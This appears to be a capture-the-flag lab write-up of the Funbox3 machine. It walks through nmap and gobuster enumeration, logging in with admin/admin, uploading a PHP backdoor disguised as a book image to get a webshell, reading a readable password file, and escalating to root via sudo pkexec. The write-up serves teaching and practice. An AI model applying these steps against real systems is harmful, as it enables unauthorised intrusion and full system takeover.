




# Unrestricted File Upload to Bad File Permissions to Sudo Misconfigs

Here we go again.

```
kali@kali:~/work$ nmap -p- target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-08 20:00 MST
Nmap scan report for target (target)
Host is up (0.065s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
```

Don’t know what 33060 is, but let’s look at the web server.

```
kali@kali:~/work$ gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 271]
/.hta                 (Status: 403) [Size: 271]
/admin                (Status: 301) [Size: 300] [--> http://target/admin/]
/.htaccess            (Status: 403) [Size: 271]
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 3468]
/robots.txt           (Status: 200) [Size: 14]
/secret               (Status: 301) [Size: 301] [--> http://target/secret/]
/server-status        (Status: 403) [Size: 271]
/store                (Status: 301) [Size: 300] [--> http://target/store/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Okay, so we have a couple of pages to look at.

/admin, /store, and /gym (discovered in robots.txt) all have login forms. Admin/admin works on /store, then we get a way to edit books available in the store, including the images associated with them.




So we upload our simple-backdoor.php file as the image then go to the book and figure out the URL for the image.



Alright, that works!

Digging around in the system with our webshell, we find /home/tony/password.txt is readable.



Okay, I guess we’re SSHing as tony.

```
kali@kali:~/work$ ssh tony@target
tony@target's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
...
tony@funbox3:~$
```

And we’re in. What can tony sudo?

```
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Pkexec catches my attention. What’s that do?

From the man page:
> pkexec – Execute a command as another user

So we can sudo as root and run a command as another user (including root).

```
tony@funbox3:~$ sudo /usr/bin/pkexec --user root /bin/bash
root@funbox3:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Wam bam balam we’re root.
